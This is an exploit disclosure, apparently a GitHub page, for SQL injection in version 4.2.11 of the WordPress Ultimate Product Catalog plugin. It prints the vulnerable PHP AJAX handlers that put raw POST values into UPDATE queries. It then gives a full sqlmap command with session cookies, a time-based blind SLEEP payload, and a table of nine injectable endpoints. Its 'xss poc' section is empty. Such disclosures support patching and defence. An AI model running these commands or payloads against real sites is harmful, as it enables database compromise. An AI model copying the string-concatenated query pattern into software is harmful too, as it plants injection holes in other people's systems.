


#### Exploit Title: WordPress Plugin Product Catalog  SQL Injection / Cross-Site Scripting

#### Exploit Author: ning1022

#### Plugin URI: http://www.EtoileWebDesign.com/plugins/ultimate-product-catalog/


#### Version:  4.2.11

Vulnerability code

```
ultimate-product-catalogue/Functions/Process_Ajax.php

/* Processes the ajax requests being put out in the admin area and the front-end
*  of the UPCP plugin */

// Updates the order of items in the catalogue after a user has dragged and dropped them
function Catalogue_Save_Order() {
	global $catalogue_items_table_name;
	global $wpdb;

	foreach ($_POST['list-item'] as $Key=>$ID) {

		$Result = $wpdb->query("UPDATE $catalogue_items_table_name SET Position='" . $Key . "' WHERE Catalogue_Item_ID=" . $ID);


	}
		
}
add_action('wp_ajax_catalogue_update_order', 'Catalogue_Save_Order');

function Video_Save_Order(){
	global $item_videos_table_name;
	global $wpdb;
	
	foreach ($_POST['video-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $item_videos_table_name SET Item_Video_Order='" . $Key . "' WHERE Item_Video_ID=" . $ID);
	}
}
add_action('wp_ajax_video_update_order','Video_Save_Order');

function Image_Save_Order(){
	global $item_images_table_name;
	global $wpdb;
	
	foreach ($_POST['list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $item_images_table_name SET Item_Image_Order='" . $Key . "' WHERE Item_Image_ID=" . $ID);
	}
}
add_action('wp_ajax_image_update_order','Image_Save_Order');

function Tag_Group_Save_Order(){
	global $tag_groups_table_name;
	global $wpdb;
	
	foreach ($_POST['list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $tag_groups_table_name SET Tag_Group_Order='" . $Key . "' WHERE Tag_Group_ID=" . $ID);
	}
}
add_action('wp_ajax_tag_group_update_order','Tag_Group_Save_Order');

function Category_Products_Save_Order(){
	global $items_table_name;
	global $wpdb;
	
	foreach ($_POST['category-product-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $items_table_name SET Item_Category_Product_Order='" . $Key . "' WHERE Item_ID=" . $ID);
	}
}
add_action('wp_ajax_category_products_update_order','Category_Products_Save_Order');

function Custom_Fields_Save_Order(){
	global $fields_table_name;
	global $wpdb;
	
	foreach ($_POST['field-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $fields_table_name SET Field_Sidebar_Order='" . $Key . "' WHERE Field_ID=" . $ID);
	}
}
add_action('wp_ajax_custom_fields_update_order','Custom_Fields_Save_Order');

function Catergories_Save_Order(){
	global $categories_table_name;
	global $wpdb;
	
	foreach ($_POST['category-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $categories_table_name SET Category_Sidebar_Order='" . $Key . "' WHERE Category_ID=" . $ID);
	}
}
add_action('wp_ajax_categories_update_order','Catergories_Save_Order');

function SubCatergories_Save_Order(){
	global $subcategories_table_name;
	global $wpdb;
	
	foreach ($_POST['subcategory-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $subcategories_table_name SET SubCategory_Sidebar_Order='" . $Key . "' WHERE SubCategory_ID=" . $ID);
	}
}
add_action('wp_ajax_subcategories_update_order','SubCatergories_Save_Order');

function Tags_Save_Order(){
	global $tags_table_name;
	global $wpdb;

	foreach ($_POST['tag-list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $tags_table_name SET Tag_Sidebar_Order='" . $Key . "' WHERE Tag_ID=" . $ID);
	}
}
add_action('wp_ajax_tags_update_order','Tags_Save_Order');


```

 SQL Injection Poc 
 
 
 ```
 ➜  sqlmap-dev git:(master) ✗ python sqlmap.py -u "http://[wordpress]/wp-admin/admin-ajax.php?action=catalogue_update_order"  --dbms mysql --cookie='wordpress_05538288de4800457244fd53c1bf3a45=admin%7C1501751006%7CxRjGC7bEkHMBUbdmN1dLVquUKMAnUEj3DxUbxEPzpy3%7Cca082d9bf78fa404cd99c9d12ec958cfb075257309902d9e420c4e427c27c326; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_05538288de4800457244fd53c1bf3a45=admin%7C1501751006%7CxRjGC7bEkHMBUbdmN1dLVquUKMAnUEj3DxUbxEPzpy3%7C1dd3c0402028c26fcf0b7ac3dbba69b08ffafe341cde416f1d8b424f0861c6e5; wp-settings-1=editor%3Dtinymce%26posts_list_mode%3Dexcerpt%26libraryContent%3Dupload; wp-settings-time-1=1501578206' --data="list-item[1]=1"
 
 
[17:54:08] [INFO] testing connection to the target URL
[17:54:08] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list-item[1] (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: list-item[1]=1 AND (SELECT * FROM (SELECT(SLEEP(5)))jXfE)
    
    
 
 
 
 ```
 
 
  SQL Injection URL and injection parameter
 
 
|URL |injection parameter|
|:----|-----   |
|wp-admin/admin-ajax.php?action=catalogue\_update\_order |$_POST['list-item'] |
|/wp-admin/admin-ajax.php?action=video\_update\_order|$_POST['video-item']|
|/wp-admin/admin-ajax.php?action=image\_update\_order|$_POST['list-item']|
|/wp-admin/admin-ajax.php?action=tag\_group\_update\_order|$\_POST['list_item']|
|/wp-admin/admin-ajax.php?action=category\_products\_update\_order|$_POST['category-product-item']|
|/wp-admin/admin-ajax.php?action=custom\_fields\_update\_order|$_POST['field-item']|
|/wp-admin/admin-ajax.php?action=categories\_update\_order|$_POST['category-item']|
|/wp-admin/admin-ajax.php?action=subcategories\_update\_order|$_POST['subcategory-item']|
|/wp-admin/admin-ajax.php?action=tags\_update\_order|$_POST['tag-list-item']|


xss poc:








 
 
 
 


